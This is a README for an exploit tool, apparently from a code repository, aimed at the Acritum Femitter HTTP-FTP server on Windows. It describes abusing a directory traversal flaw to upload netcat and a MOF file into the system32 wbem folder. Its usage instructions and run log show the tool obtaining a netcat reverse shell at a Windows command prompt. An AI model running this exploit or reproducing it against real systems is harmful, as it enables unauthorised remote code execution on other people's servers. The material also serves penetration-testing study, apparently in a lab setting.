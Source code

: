 # femitter_ftp_mof_dropper_rce

## Summary

Acritum Femitter HTTP-FTP Server is a HTTP and FTP server application for Windows.
Because of insufficiently sanitation of user-supplied input, Femitter FTP Server is prone to a directory traversal vulnerability.
As the Stuxnet approach we abuse this by drop a mof file to get a netcat reverse shell.

## Usage

Run femitter_ftp_mof_dropper_rce.py to get the usage menu.

```sh 
⬢  femitter_ftp_mof_dropper_rce  master ⦿ ./femitter_ftp_mof_dropper_rce.py

• ▌ ▄ ·.       ·▄▄▄·▄▄▄▄▄▄▄▄ ▄▄▄··▄▄▄▄  ▄▄▄         ▄▄▄· ▄▄▄·▄▄▄ .▄▄▄  ▄▄▄   ▄▄· ▄▄▄ .
·██ ▐███▪▪     ▐▄▄·▐▄▄·•██  ▐█ ▄███▪ ██ ▀▄ █·▪     ▐█ ▄█▐█ ▄█▀▄.▀·▀▄ █·▀▄ █·▐█ ▌▪▀▄.▀·
▐█ ▌▐▌▐█· ▄█▀▄ ██▪ ██▪  ▐█.▪ ██▀·▐█· ▐█▌▐▀▀▄  ▄█▀▄  ██▀· ██▀·▐▀▀▪▄▐▀▀▄ ▐▀▀▄ ██ ▄▄▐▀▀▪▄
██ ██▌▐█▌▐█▌.▐▌██▌.██▌. ▐█▌·▐█▪·•██. ██ ▐█•█▌▐█▌.▐▌▐█▪·•▐█▪·•▐█▄▄▌▐█•█▌▐█•█▌▐███▌▐█▄▄▌
▀▀  █▪▀▀▀ ▀█▄▀▪▀▀▀ ▀▀▀  ▀▀▀ .▀   ▀▀▀▀▀• .▀  ▀ ▀█▄▀▪.▀   .▀    ▀▀▀ .▀  ▀.▀  ▀·▀▀▀  ▀▀▀ 
    
Usage: ./femitter_ftp_mof_dropper_rce.py <HOST>:<PORT> <LHOST> <LPORT> <USERNAME> <PASSWORD>
EXAMPLE: ./femitter_ftp_mof_dropper_rce.py 10.10.10.59 10.10.14.24 1337 anonymous password
```

Run the exploit.

```sh
⬢  femitter_ftp_mof_dropper_rce  master ⦿ ./femitter_ftp_mof_dropper_rce.py 10.11.1.xxx 10.11.0.xxx 4444 admin password
[+] LHOST = 10.11.0.xxx
[+] Generating xIVohfjZ.mof
[+] Netcat = 4444
[-] Could not upload file: nc.exe
[+] Uploaded: nc.exe into Upload
[-] Could not upload file: nc.exe
[+] Uploaded: nc.exe into Upload
[-] Could not upload file: xIVohfjZ.mof
[+] Uploaded: xIVohfjZ.mof into Upload
[+] traversal sys32=../../../../WINDOWS/SYSTEM32
[+] traversal wbem=../../../../WINDOWS/SYSTEM32/wbem/mof
Connection from 10.11.1.xxx:1043
Microsoft Windows XP [version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```